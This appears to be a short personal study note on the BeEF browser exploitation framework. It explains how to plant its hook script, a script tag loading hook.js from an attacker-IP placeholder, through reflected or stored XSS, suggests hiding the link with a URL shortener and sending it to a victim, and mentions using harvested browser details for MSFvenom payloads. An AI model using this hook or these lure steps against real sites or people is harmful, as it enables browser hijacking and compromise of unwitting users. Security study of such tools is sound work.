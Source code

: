 #### Introduction :
this application hooks / hacks browsers if a javascript command is run

#### Hooking :
When the application is run it provides a hooking javascript code at the beginning which looks something like : `<script src="http://`<span style="color: cyan;">&ltIP&gt</span>`:3000/hook.js"</script>`
This can be used in Reflected, Stored or DOM-based XSS 
Ex :
![[BeEF 1.png]]

`Note : specify attackers IP in <IP> better to use URL shortener`

and if someone is hooked it will appear like this in the BeEF website :
![[BeEF 2.png]]

#### To Hook others :
##### For Reflected XSS :
To hook others browsers :
**send this hooked URL to your victim and you get a connection in the BeEF website**

##### For Stored XSS :
To hook others browsers :
**here the code injected in the website and the database stores this so anyone visiting the same page will get hooked automatically and the URL dosen't  look suspicious**

#### Exploits :
clicking on the IP address we get basic valuable information about the browser and also about the machine like x64 or arm etc. which can be handy while creating [[MSFvenom]]
and also you can run many other commands
